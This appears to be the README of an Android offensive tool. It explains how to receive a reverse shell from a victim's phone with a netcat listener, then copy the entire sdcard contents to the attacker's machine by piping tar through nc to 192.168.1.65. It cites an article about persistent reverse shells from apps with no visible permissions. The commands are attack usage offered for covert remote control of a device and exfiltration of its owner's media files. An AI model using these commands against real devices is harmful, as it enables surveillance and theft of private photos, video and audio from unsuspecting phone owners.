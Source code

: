 # How to use it simple way

## Get reverse shell
In server (192.168.1.65):

```bash
netcat -nlvp 4444
```

Now you will have the reverse shell.

## Download media files
Firstly you open a listening port for the tar file (inside a safe folder which will hold all info):

```bash

nc -l -p 7000 | tar -x
```

In the reverse shell you do the following to start the process of transfering all files:

```bash
cd sdcard
tar -c * | nc 192.168.1.65 7000
```

### Disclaimer

It uses new manifest permission request method (Video, images and audio separated)

Ref: [Mobile-Hacker Forum](https://www.mobile-hacker.com/2023/09/27/get-persistent-reverse-shell-from-android-app-without-visible-permissions-to-make-device-unusable/)
